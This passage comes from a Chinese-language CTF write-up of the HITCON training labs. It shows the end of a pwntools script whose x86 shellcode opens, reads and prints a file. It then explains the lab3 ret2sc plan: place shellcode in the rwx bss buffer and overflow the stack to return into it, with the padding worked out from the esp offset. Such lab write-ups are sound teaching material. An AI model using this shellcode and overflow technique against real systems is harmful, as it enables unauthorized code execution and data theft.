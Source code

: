 ```python
xor edx,edx;  
xor eax,eax;  
mov al,0x5; #open
int 0x80;  #

mov ebx,eax; #eax中存储了返回值fp
xor eax,eax;
mov al,0x3;  #read
mov ecx,esp; #&buf
mov dl,0x30;
int 0x80;

mov al,0x4;   #write
mov bl,1;
mov dl,0x30;
int 0x80;
'''

#gdb.attach(cn)
#raw_input()
cn.sendline(asm(shellcode)) #write到终端
cn.interactive()

```

### lab3

![hitconlab32](C:\Users\asus\spidermana.github.io\assets\img\hitconlab32.png)

没有canary，还有rwx。

反汇编源文件，可知有栈溢出点，同时输入存储到&name中，name处于bss段

![hitconlab31](C:\Users\asus\spidermana.github.io\assets\img\hitconlab31.png)

在gdb中run ret2sc文件【file ret2sc—b main—vmmap】，vmmap得到如下结果。

name所在的bss段，在vmmap结果中可以看到rwx

![hitconlab33](C:\Users\asus\spidermana.github.io\assets\img\hitconlab33.png)

**exp：**通过read(&name)写入shellcode+gets(&s)栈溢出，ret到bss段首。

但是这里有一点要注意，看汇编可以知道，他这里是使用esp寄存器传参的。

比如read函数第一个参数在[esp]、第二个参数在[esp+4]、第三个参数[esp+8]。

【平常一般是push参数1，push 参数2……】

![1555491006628](C:\Users\asus\AppData\Roaming\Typora\typora-user-images\1555491006628.png)

因此<u>计算padding的时候对于char s; // [esp+1Ch] [ebp-14h]，要用 [esp+1Ch]</u> 。设置'a'\*0x1c+'bbbb'而非‘a’\*0x14+'bbbb'。
